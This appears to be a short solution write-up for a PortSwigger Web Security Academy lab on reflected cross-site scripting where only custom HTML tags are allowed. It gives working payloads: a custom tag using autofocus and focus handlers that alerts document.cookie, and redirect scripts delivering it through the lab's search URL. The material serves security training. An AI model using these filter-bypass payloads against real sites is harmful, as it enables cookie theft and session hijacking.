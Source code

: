 # Reflected XSS into HTML context with all tags blocked except custom ones

## This lab blocks all HTML tags except custom ones.

## To solve the lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that injects a custom tag and automatically alerts `document.cookie`.

### HINT:

`<a id=x tabindex=1 onfocusin=alert(1)></a>`
convert to custom tag
`<xss autofocus tabindex=1 onfocus=alert(1)></xss>`
paste into search url

```javascript
<script>
  location =
  'https://0a4300be04a99807817ca288007300f9.web-security-academy.net/?search=%3Cxss%20autofocus%20tabindex=1%20onfocusin=alert(1)%3E%3C/xss%3E';
</script>
```

```javascript
<script>
  {" "}
  location = 'https://0a4300be04a99807817ca288007300f9.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';{" "}
</script>
```
